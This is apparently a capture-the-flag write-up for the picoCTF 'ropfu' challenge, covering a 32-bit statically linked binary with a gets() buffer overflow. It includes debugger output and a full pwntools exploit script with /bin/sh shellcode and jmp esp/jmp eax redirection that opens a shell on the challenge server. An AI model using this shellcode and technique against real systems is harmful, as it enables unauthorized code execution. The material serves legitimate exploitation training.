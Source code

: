 ### ropfu

Download the files and run `file vuln`.

```bash
➜  ropfu git:(main) ✗ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
```

We see that this binary is `statically linked`, meaning we cannot perform `ret2libc` attack. Also, there will be many gadgets in the binary that will help us perform a `ROP chain`.

Taking a look at the `.c`.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

It's a typical buffer overflow. Running `checksec` to see the protections.

```bash
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/ropfu/vuln'
[*] .gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py:L8764 'checksec' is deprecated and will be removed in a feature release. Use Elf(fname).checksec()
Canary                        : ✓ 
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

We are more than lucky because `NX` is disabled. The only problem is the `Canary`. Well, if we try to overwrite the canary, we get this.

```gdb
0xffffd020│+0x0000: "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"	 ← $esp
0xffffd024│+0x0004: "jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaava[...]"
0xffffd028│+0x0008: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
0xffffd02c│+0x000c: "laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxa[...]"
0xffffd030│+0x0010: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0xffffd034│+0x0014: "naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaza[...]"
0xffffd038│+0x0018: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
0xffffd03c│+0x001c: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabca[...]"
───────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616168
───────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616168 in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset $eip
[+] Searching for '$eip'
[+] Found at offset 28 (little-endian search) likely
[+] Found at offset 25 (big-endian search) 
```

The canary seems to be a scam. The program did not terminate after we overflow the buffer. This is probably because of the `return gets(buf)`. Well, now we also have an overflow offset at `28` bytes.

Sending a sequence of `AAAABBBBCCCCDDDDEEEEFFFFGGGG`, we will see the stack layout and the registers.

Right before `ret`, the registers are like this:

```gdb
$eax   : 0xffffd000  →  "AAAABBBBCCCCDDDDEEEEFFFFGGG"
$ebx   : 0x46464646 ("FFFF"?)
$ecx   : 0x80e5300  →  <_IO_2_1_stdin_+0> mov BYTE PTR [edx], ah
$edx   : 0xffffd01b  →  0x049e1a00
$esp   : 0xffffd000  →  "AAAABBBBCCCCDDDDEEEEFFFFGGG"
$ebp   : 0xffffd018  →  0x474747 ("GGG"?)
```

* `eax` contains the start of the buffer (where we can enter our payload)
* `esp` the same
* `ebp` the last bytes of our payload (I entered less `G` so the program would not terminate).

The exploitation path is to:

* Fill the buffer with the `jmp esp` opcode and `nop-slides`.
* `jmp eax` to execute it.
* Fill `esp` with our shellcode to execute it after `jmp esp`.

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'i386'

r = remote('saturn.picoctf.net', 58385)

sc = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

payload  = b'\xff\xe4' # jmp esp opcode
payload += b'\x90'*(0x1c - 2) 
payload += p32(0x0805333b) # jmp eax
payload += sc # our shellcode

r.sendline(payload)
pause(1)
r.recvline()
r.sendline('cat flag.txt')
success(f'Flag --> {r.recvuntil("}").strip().decode()}')
```

```bash
➜  ropfu git:(main) ✗ python solver.py
[+] Opening connection to saturn.picoctf.net on port 58385: Done
[+] Waiting: Done
[+] Flag --> picoCTF{XXX}
[*] Closed connection to saturn.picoctf.net port 58385
```



